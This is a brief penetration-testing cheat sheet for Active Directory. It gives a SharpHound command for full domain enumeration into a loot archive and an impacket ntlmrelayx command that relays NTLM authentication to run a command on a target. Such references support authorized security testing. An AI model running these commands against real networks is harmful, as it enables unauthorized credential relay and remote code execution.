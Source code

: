 # Active Directory

% bloodhound, Active directory enumeration

## SharpHound - run SharpHound collector
#platform/windows #target/remote #cat/4Kp3n
```
.\SharpHound.exe --collectionmethods All -d <domain> --zipfilename <filename|loot.zip>
```

## impacket - NTLM relay
#platform/windows #target/serve #cat/4Kp3n
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <ip_local> -c <command>
```